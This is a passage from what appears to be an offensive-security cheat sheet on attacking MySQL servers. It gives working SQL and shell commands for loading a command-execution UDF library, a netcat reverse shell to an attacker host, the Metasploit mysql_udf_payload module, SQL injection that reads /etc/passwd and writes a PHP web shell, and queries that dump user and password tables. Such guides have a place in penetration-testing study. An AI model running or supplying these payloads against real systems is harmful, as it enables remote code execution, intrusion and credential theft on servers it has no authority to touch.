 #### MySQL 5.x UDF Exploitation
```sql
-- Create UDF for command execution (MySQL 5.x)
-- First, need to upload lib_mysqludf_sys.so to plugin directory

-- Using hex encoding to upload library
SELECT 0x7f454c46... INTO DUMPFILE '/usr/lib/mysql/plugin/lib_mysqludf_sys.so';

-- Create UDF functions
CREATE FUNCTION sys_exec RETURNS int SONAME 'lib_mysqludf_sys.so';
CREATE FUNCTION sys_eval RETURNS string SONAME 'lib_mysqludf_sys.so';

-- Execute commands
SELECT sys_exec('id > /tmp/mysql_output.txt');
SELECT sys_eval('whoami');
SELECT sys_exec('nc attacker-ip 4444 -e /bin/bash');
```

#### Metasploit UDF Exploitation
```bash
# Use Metasploit UDF exploit
use exploit/multi/mysql/mysql_udf_payload
set RHOSTS <target-ip>
set USERNAME root
set PASSWORD <password>
set LHOST <your-ip>
exploit
```

### Method 5: SQL Injection to System Access

#### Through Web Applications
```sql
-- Union-based injection to read files
UNION SELECT 1,LOAD_FILE('/etc/passwd'),3--

-- Write web shell via SQL injection
UNION SELECT 1,'<?php system($_GET[cmd]); ?>',3 INTO OUTFILE '/var/www/html/cmd.php'--

-- Time-based command execution
SELECT BENCHMARK(1000000,MD5(1)) FROM dual WHERE SUBSTRING(LOAD_FILE('/etc/passwd'),1,1)='r'--
```

---

## ✅ Post-Exploitation Activities

### Database Assessment
```sql
-- List all databases
SHOW DATABASES;

-- For each database, examine tables
USE database_name;
SHOW TABLES;

-- Look for sensitive data
SELECT * FROM users;
SELECT * FROM accounts;
SELECT * FROM passwords;
SELECT * FROM admin;
SELECT * FROM config;

-- Search for tables containing passwords
```